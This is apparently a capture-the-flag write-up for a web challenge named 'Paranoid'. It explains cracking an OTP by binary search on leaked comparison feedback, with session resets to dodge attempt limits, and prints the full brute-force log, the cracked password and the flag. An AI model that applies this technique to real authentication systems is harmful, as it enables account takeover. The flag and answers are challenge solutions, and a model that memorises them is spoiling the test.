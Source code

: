 # Paranoid ⭐⭐⭐

[< Go back](../../README.md)

## Description

I made this cool website, but I don't trust any of those lousy package maintainers to handle my password securily.
So, I developed my own library.
I know it's security because it uses MFA.

The [paranoid/](./paranoid/) folder was provided and an URL

## Challenge

I've setup a local environment for testing. This will allow us to view customize the server code into a way to helps us debug and create a brute-force tool.

I came up with [bruteforce.py](./bruteforce.py) to crack the OTP.

For the first step related to the password cracking, due to the fact there were less limitations, the process is a little bit more straight forward, and I could have adatped my tool to also handle the password cracking, but because of time constraints I rolled with the fact that @vhseffect had already brute forced the password. (i.e. "MonkeyBrain")

### Cracking

The tool is a simple binary search algorithm, I implemented it recursively for the lols, it wasn' really necessary to do so, but it's been some time since I did any programming challenge like this, so I wanted to have some fun.

The tool actually handles pretty much anything that could happen gracefully, due to time limitations, or max attempt if the server blocks us, the bruteforce script just rolls back and generates a completely new guid session with the password and tries again.

```
Got GUID: /33169135-1740-4950-ae6f-94dc7cea2d70

[*] Attempting OTP: V (State: 0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz)
[!] Invalid OTP. Tries left: 49: -1

[*] Attempting OTP: F (State: 0123456789ABCDEFGHIJKLMNOPQRSTU)
[!] Invalid OTP. Tries left: 48: 1

[*] Attempting OTP: N (State: FGHIJKLMNOPQRSTU)
[!] Invalid OTP. Tries left: 47: -1

[*] Attempting OTP: J (State: FGHIJKLM)
[!] Invalid OTP. Tries left: 46: 1

[*] Attempting OTP: L (State: JKLM)
[!] Invalid OTP. Tries left: 45: 1

[*] Attempting OTP: M (State: LM)
[!] Invalid OTP. Tries left: 44: -1

[*] Attempting OTP: LV (State: 0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz)
[!] Invalid OTP. Tries left: 43: 1

[*] Attempting OTP: Lk (State: VWXYZabcdefghijklmnopqrstuvwxyz)
[!] Invalid OTP. Tries left: 42: -1

[*] Attempting OTP: Lc (State: VWXYZabcdefghij)
[!] Invalid OTP. Tries left: 41: 1

[*] Attempting OTP: Lg (State: cdefghij)
[!] Invalid OTP. Tries left: 40: 1

[*] Attempting OTP: Li (State: ghij)
[!] Invalid OTP. Tries left: 39: -1

[*] Attempting OTP: Lh (State: gh)
[!] Invalid OTP. Tries left: 38: -1

[*] Attempting OTP: LgV (State: 0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz)
[!] Invalid OTP. Tries left: 37: 1

[*] Attempting OTP: Lgk (State: VWXYZabcdefghijklmnopqrstuvwxyz)
[!] Invalid OTP. Tries left: 36: 1

[*] Attempting OTP: Lgs (State: klmnopqrstuvwxyz)
[!] Invalid OTP. Tries left: 35: 1

[*] Attempting OTP: Lgw (State: stuvwxyz)
[!] Invalid OTP. Tries left: 34: -1

[*] Attempting OTP: Lgu (State: stuv)
[!] Invalid OTP. Tries left: 33: -1

[*] Attempting OTP: Lgt (State: st)
[!] Invalid OTP. Tries left: 32: -1

[*] Attempting OTP: LgsV (State: 0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz)
[!] Invalid OTP. Tries left: 31: 1

[*] Attempting OTP: Lgsk (State: VWXYZabcdefghijklmnopqrstuvwxyz)
[!] Invalid OTP. Tries left: 30: -1

[*] Attempting OTP: Lgsc (State: VWXYZabcdefghij)
[!] Invalid OTP. Tries left: 29: -1

[*] Attempting OTP: LgsY (State: VWXYZab)
[!] Invalid OTP. Tries left: 28: -1

[*] Attempting OTP: LgsW (State: VWX)
[!] Invalid OTP. Tries left: 27: 1

[*] Attempting OTP: LgsX (State: WX)
[!] Invalid OTP. Tries left: 26: 1

[*] Attempting OTP: LgsXV (State: 0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz)
[!] Invalid OTP. Tries left: 25: 1

[*] Attempting OTP: LgsXk (State: VWXYZabcdefghijklmnopqrstuvwxyz)
[!] Invalid OTP. Tries left: 24: 1

[*] Attempting OTP: LgsXs (State: klmnopqrstuvwxyz)
[!] Invalid OTP. Tries left: 23: -1

[*] Attempting OTP: LgsXo (State: klmnopqr)
[!] Invalid OTP. Tries left: 22: -1

[*] Attempting OTP: LgsXm (State: klmn)
[!] Invalid OTP. Tries left: 21: 1

[*] Attempting OTP: LgsXn (State: mn)
[!] Invalid OTP. Tries left: 20: -1

[*] Attempting OTP: LgsXmV (State: 0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz)
[!] Invalid OTP. Tries left: 19: -1

[*] Attempting OTP: LgsXmF (State: 0123456789ABCDEFGHIJKLMNOPQRSTU)
[!] Invalid OTP. Tries left: 18: -1

[*] Attempting OTP: LgsXm7 (State: 0123456789ABCDE)
[!] Invalid OTP. Tries left: 17: 1

[*] Attempting OTP: LgsXmB (State: 789ABCDE)
[!] Invalid OTP. Tries left: 16: 1

[*] Attempting OTP: LgsXmD (State: BCDE)
[*] Found OTP: LgsXmD
[*] Flag: CSC{Al9ORi7hMic5_cLa22_Wa5_Co0L_aF73R_AlL}
```
